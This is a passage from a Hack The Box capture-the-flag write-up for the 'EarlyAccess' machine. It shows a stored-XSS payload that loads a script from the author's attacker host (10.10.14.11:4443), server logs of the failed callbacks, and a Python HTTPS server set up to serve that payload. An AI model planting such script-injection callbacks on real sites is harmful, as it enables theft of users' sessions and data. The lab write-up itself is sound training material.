 Here I've just added a simple XSS call back to my Kali IP to get the pencer.js file:

```html
<script src="https://10.10.14.11:4443/pencer.js" />
```

However it didn't work:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# python3 -m http.server 4443
Serving HTTP on 0.0.0.0 port 4443 (http://0.0.0.0:4443/) ...
10.10.11.110 - - [30/Jan/2022 22:19:17] code 400, message Bad request version ('o\x9c)É«·\x00')
o)É«· " 400 -F®j=[Ê0/Jan/2022 22:19:17] "ü¸Ù=¹Ä½3Å▒µÐ÷0+p¹@ÊØ·3]Ñ£ 
10.10.11.110 - - [30/Jan/2022 22:19:17] code 400, message Bad request version ('éF\x05@\x92´\x1a\'%¥\x00"êê\x13\x01\x13\x02\x13\x03À+À/À,À0Ì©Ì¨À\x13À\x14\x00\x9c\x00\x9d\x00/\x005\x00')
10.10.11.110 - - [30/Jan/2022 22:19:17] "üZ(ÜW^ÿâF05O¼$µlf¨Ð¦r{Hoe²f» _k(êtoG"\/8ªlSMÀ¿k        éF@´▒'%¥"êêÀ+À/À,À0Ì©Ì¨ÀÀ/5" 400 -
```

So I tried a PHP server which gave me more information:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# php -S 0.0.0.0:4443
[Sun Jan 30 21:58:19 2022] PHP 7.4.26 Development Server (http://0.0.0.0:4443) started
[Sun Jan 30 22:08:17 2022] 10.10.11.110:41902 Accepted
[Sun Jan 30 22:08:17 2022] 10.10.11.110:41902 Invalid request (Unsupported SSL request)
[Sun Jan 30 22:08:17 2022] 10.10.11.110:41902 Closing
```

## Python HTTPS Server

I forgot the site is HTTPS so my server on Kali needs to be capable of that aswell. I searched for a python https server and found [this](https://stackoverflow.com/questions/19705785/python-3-simple-https-server), I just changed the server address, and the pem file name:

```python
import http.server, ssl
server_address = ('0.0.0.0', 4443)
httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, server_side=True, certfile='pencer.pem', ssl_version=ssl.PROTOCOL_TLS)
httpd.serve_forever()
```

To create the pem file to use with my Python HTTPS server I used [this](https://github.com/3gstudent/pyXSSPlatform) to show me the correct opennssl command:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# openssl req -new -x509 -keyout pencer.pem -out pencer.pem -days 3650 -nodes
Generating a RSA private key
.......+++++
............................................+++++
writing new private key to 'pencer.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
```